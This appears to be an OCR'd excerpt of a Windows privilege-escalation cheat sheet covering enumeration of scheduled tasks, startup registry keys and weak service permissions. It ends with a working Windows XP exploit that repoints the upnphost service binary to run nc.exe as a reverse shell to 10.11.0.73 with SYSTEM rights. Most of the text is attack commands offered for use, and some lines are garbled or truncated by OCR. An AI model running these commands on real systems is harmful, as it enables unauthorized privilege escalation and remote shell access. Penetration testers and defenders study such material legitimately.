 schtasks /query /fo LIST 2&gt;nul \| findstr TaskName
Get-ScheduledTask \| where {$\_.TaskPath -notlike "\Microsoft\*"} \| ft TaskName,TaskPath,State

Startup tasks

wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"

EoP - Incorrect permissions in services

A service running as Administrator/SYSTEM with incorrect file permissions might allow EoP. You can replace the binary, restart the service and get system.

Often, services are pointing to writeable locations:

	• Orphaned installs, not installed anymore but still exist in startup

	• DLL Hijacking

	• PATH directories with weak permissions

$ for /f "tokens=2 delims='='" %a in \('wmic service list full^\|find /i "pathname"^\|find /i /v "system32"'\) do @echo %a &gt;&gt; c:\windows\temp\permissions.txt
$ for /f eol^=^"^ delims^=^" %a in \(c:\windows\temp\permissions.txt\) do cmd.exe /c icacls "%a"

$ sc query state=all \| findstr "SERVICE\_NAME:" &gt;&gt; Servicenames.txt
FOR /F %i in \(Servicenames.txt\) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in \(Servicenames.txt\) DO @echo %i &gt;&gt; services.txt
FOR /F %i in \(services.txt\) DO @sc qc %i \| findstr "BINARY\_PATH\_NAME" &gt;&gt; path.txt

Alternatively you can use the Metasploit exploit : exploit/windows/local/service\_permissions

Note to check file permissions you can use cacls and icacls

icacls \(Windows Vista +\)

cacls \(Windows XP\)

You are looking for BUILTIN\Users:\(F\)\(Full access\), BUILTIN\Users:\(M\)\(Modify access\) or BUILTIN\Users:\(W\)\(Write-only access\) in the output.

Example with Windows XP SP1

\# NOTE: spaces are mandatory for this exploit to work !
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
sc config upnphost depend= ""
net start upnphost

If it fails because of a missing dependency, try the following commands.

sc config SSDPSRV start=auto
net start SSDPSRV
net stop upnphost
net start upnphost
